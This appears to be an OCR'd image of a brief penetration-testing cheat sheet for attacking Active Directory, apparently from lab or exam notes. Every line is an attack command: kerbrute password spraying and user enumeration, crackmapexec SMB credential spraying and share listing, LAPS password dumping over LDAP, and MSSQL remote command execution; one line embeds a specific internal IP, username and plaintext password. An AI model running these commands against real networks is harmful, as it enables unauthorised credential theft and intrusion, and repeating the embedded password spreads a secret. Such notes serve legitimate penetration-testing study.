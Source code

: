 ./kerbrute_linux_amd64 passwordspray -d <DOMAIN> domain_users.txt <PASSWORD>
kerbrute userenum -d <DOMAIN> usernames.txt
kerbrute -domain <DOMAIN> -users users.txt -dc-ip <IP>
crackmapexec smb <IP> -u users -p '<PASSWORD>' -d <DOMAIN> --continue-on-success
crackmapexec smb <IP> -u users.txt -p passwords.txt --shares
crackmapexec ldap 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.219.122 -M laps
crackmapexec mssql -d <DOMAIN> -u <username> -p <password> -x "whoami"
